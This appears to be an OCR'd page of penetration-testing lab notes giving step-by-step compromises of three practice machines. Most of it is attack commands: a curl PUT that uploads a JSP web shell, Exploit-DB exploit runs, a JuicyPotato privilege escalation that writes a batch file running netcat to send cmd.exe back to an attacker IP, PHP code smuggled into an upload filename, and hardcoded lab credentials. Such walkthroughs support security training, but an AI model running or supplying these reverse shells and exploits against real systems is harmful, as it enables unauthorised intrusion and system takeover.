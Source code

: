 ```bash
HomeStudy (.42)
```
Operating SystemWindows
Points20
Similar Machine (User)TryHackMe’s Thompson
Similar Machine (Root)HackTheBox’s Bounty
Exploit to Getting User
First Way
1. https://www.exploit-db.com/exploits/42953
2. curl -X PUT http://192.168.52.42:8080/shell.jsp/ -d @- < shell.jsp
3. nc -lvnp 1337
4. User Shell!
Second Way
1. https://www.exploit-db.com/exploits/42966
2. python 42966.py -u http://192.168.XX.42:8080 -p pwn
3. nc -lvnp 1337
4. User shell!
Privilege Escalation to Root
1. Machine is using a Windows 10 Pro and the SeImpersonatePrivilege is enabled.
2. Download JuicyPotato - https://github.com/ohpe/juicy-potato
3. Upload a netcat binary to target machine and run the command:
echo C:\Users\Rob\Desktop\nc.exe 192.168.123.123 12345 -e cmd.exe > rev.bat
1. Setup netcat listener in your local machine
2. Go to https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro and
copy a CLSID
1. Run JuicyPotato.exe -l 12345 -p C:\Users\Rob\Desktop\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
1. Root shell!

```bash
October (.43)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s October
Similar Machine (Root)
Exploit to Getting User
1. Brute force directory and you should find /october
2. Brute force /directory folder and you should find config
3. Credential fyodor:picard
4. Upload a reverse shell (PHP) and should be located at /october/backend/cms/media
5. User shell!
Privilege Escalation to Root
1. Run Linux Enumeration and you should find SUID named NfsEn
2. Check for its version because it is vuln to https://github.com/patrickfreed/nfsen-exploit
3. Root shell!

```bash
Textian (.44)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Frolic
Similar Machine (Root)HackTheBox’s Haircut
Exploit to Getting User
1. Port 8787 is an http service
2. Check robots.txt and you should get a hidden directory
3. Credential admin:admin
4. Follow https://www.exploit-db.com/exploits/42003 and upload a CSV file
5. Capture the POST request using Burp and edit the file name to <?php echo exec(‘nc -lvnp
9000 > shell.php 2>&1’); ?>.php
1. In your local machine, transfer the shell.php to target machine by running nc -nv 192.168.XX.53
9000 < shell.php
1. Start a netcat listener to your machine and browse
http://192.168.XX.53:8787/2315e8131432505230f581cf689e783a/shell.php